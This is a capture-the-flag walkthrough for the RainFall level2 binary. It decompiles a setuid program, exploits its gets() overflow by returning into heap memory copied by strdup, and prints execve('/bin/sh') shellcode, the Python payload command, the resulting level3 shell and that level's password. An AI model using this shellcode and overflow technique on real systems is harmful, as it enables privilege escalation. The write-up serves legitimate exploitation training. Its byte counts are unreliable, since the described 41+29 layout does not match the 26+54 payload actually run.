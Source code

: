 # Level2

As in level1, we can find an executable waiting for an input, print it and quit after press enter
```
level2@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2
level2@RainFall:~$ ./level2
bla
bla
level2@RainFall:~$
```
After analyze it with radare2 (please refer to [level1](https://github.com/maxisimo/42-RainFall/blob/main/level1/walkthrough.md) if you want more details on the steps to follow)  
We can see that the `main()` function call a function named `p()`.  
- main() :
```
[0x08048420]> s main
[0x0804853f]> pdda
    ; assembly                           | /* r2dec pseudo code output */
                                         | /* level2 @ 0x804853f */
                                         | #include <stdint.h>
                                         |  
    ; (fcn) main ()                      | int32_t main (void) {
    0x0804853f push ebp                  |
    0x08048540 mov ebp, esp              |
    0x08048542 and esp, 0xfffffff0       |
    0x08048545 call 0x80484d4            |     p ();
    0x0804854a leave                     |
    0x0804854b ret                       |
                                         | }
```
- p() :
```
[0x0804853f]> s sym.p
[0x080484d4]> pdda
    ; assembly                                   | /* r2dec pseudo code output */
                                                 | /* level2 @ 0x80484d4 */
                                                 | #include <stdint.h>
                                                 |  
    ; (fcn) sym.p ()                             | int32_t p (int32_t arg_4h) {
                                                 |     char * src;
                                                 |     int32_t var_ch;
                                                 |     int32_t var_4h;
    0x080484d4 push ebp                          |
    0x080484d5 mov ebp, esp                      |
    0x080484d7 sub esp, 0x68                     |
    0x080484da mov eax, dword [0x8049860]        |     eax = stdout;
    0x080484df mov dword [esp], eax              |
    0x080484e2 call 0x80483b0                    |     fflush (eax);
    0x080484e7 lea eax, [ebp - 0x4c]             |     eax = ebp - 0x4c;
    0x080484ea mov dword [esp], eax              |
    0x080484ed call 0x80483c0                    |     gets (eax);
    0x080484f2 mov eax, dword [ebp + 4]          |     eax = *((ebp + 4));
    0x080484f5 mov dword [ebp - 0xc], eax        |     *((ebp - 0xc)) = eax;
    0x080484f8 mov eax, dword [ebp - 0xc]        |     eax = *((ebp - 0xc));
    0x080484fb and eax, 0xb0000000               |     eax &= 0xb0000000;
    0x08048500 cmp eax, 0xb0000000               |
                                                 |     if (eax == 0xb0000000) {
    0x08048505 jne 0x8048527                     |
    0x08048507 mov eax, 0x8048620                |         eax = "(%p)\n";
    0x0804850c mov edx, dword [ebp - 0xc]        |         edx = *((ebp - 0xc));
    0x0804850f mov dword [esp + 4], edx          |         *((esp + 4)) = edx;
    0x08048513 mov dword [esp], eax              |
    0x08048516 call 0x80483a0                    |         printf (eax);
    0x0804851b mov dword [esp], 1                |
    0x08048522 call 0x80483d0                    |         exit (1);
                                                 |     }
    0x08048527 lea eax, [ebp - 0x4c]             |     eax = ebp - 0x4c;
    0x0804852a mov dword [esp], eax              |
    0x0804852d call 0x80483f0                    |     puts (eax);
    0x08048532 lea eax, [ebp - 0x4c]             |     eax = ebp - 0x4c;
    0x08048535 mov dword [esp], eax              |
    0x08048538 call 0x80483e0                    |     strdup (eax);
    0x0804853d leave                             |     
    0x0804853e ret                               |     return eax;
                                                 | }
[0x080484d4]>
```
Let focus on the `p()` function.  
As in level1, we can see call to `gets()` function with a size of 0x4c (76) wich is vulnerable to buffer overflow attack.
```
    0x080484e7 lea eax, [ebp - 0x4c]             |     eax = ebp - 0x4c;
    0x080484ea mov dword [esp], eax              |
    0x080484ed call 0x80483c0                    |     gets (eax);
```
But to get the real size of the buffer we have to add 4 more bytes to reach the return adress (push ebp) => buffer = 80.  
A check is made to make sure we dont overwrite the return address to an adress on the stack
```
    0x080484fb and eax, 0xb0000000               |     eax &= 0xb0000000;
    0x08048500 cmp eax, 0xb0000000               |     if (eax == 0xb0000000) {
		                    
									more code...

	0x08048522 call 0x80483d0                    |         exit (1);
                                                 |     }
```
Due to this check we couldn't point the return address to the stack. This avoids having a shellcode stored on the stack or in environment variable.  
But if we can't use the stack we can use the heap !  
We see in the program that the buffer is later copied inside a strdup. This function use malloc who store the memory in ... the heap.
```
	0x08048538 call 0x80483e0                    |     strdup (eax);
```
We can see that malloc always return the address `0x804a008` :
```
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)								= 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5)	= 0xbffff6fc
puts("")										= 1
strdup("")										= 0x0804a008
+++ exited (status 8) +++
level2@RainFall:~$
```
Now we can try to copy a shellcode in the heap by writing it in the input prompt and then write the allocated address (malloc) on the return address.  
Thanks to internet we find some Linux shellcode we found online which will run execve(/bin/sh)  
`\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80`  
Since our shellcode is 41 bytes long we could pad the back with any byte sequence, until 80 bytes then 4 last bytes for the return adress.  
Our final attack buffer will looks like :  
- shellcode 			: 41 bytes
- pad of arbitrary data : 29 bytes
- return adress			: 4 bytes
```
level2@RainFall:~$ python -c "print '\x31\xd2\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x31\xc0\xb0\x0b\x89\xe3\x83\xe4\xf0\xcd\x80' + 'a' * 54 + '\x08\xa0\x04\x08'" >/tmp/exploit
level2@RainFall:~$ cat /tmp/exploit - | ./level2
11Qh//shh/bin1��
               ̀aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
whoami
level3
cat /home/user/level3/.pass  
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
^C
level2@RainFall:~$ su level3
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
level3@RainFall:~$
```
Level2 passed!
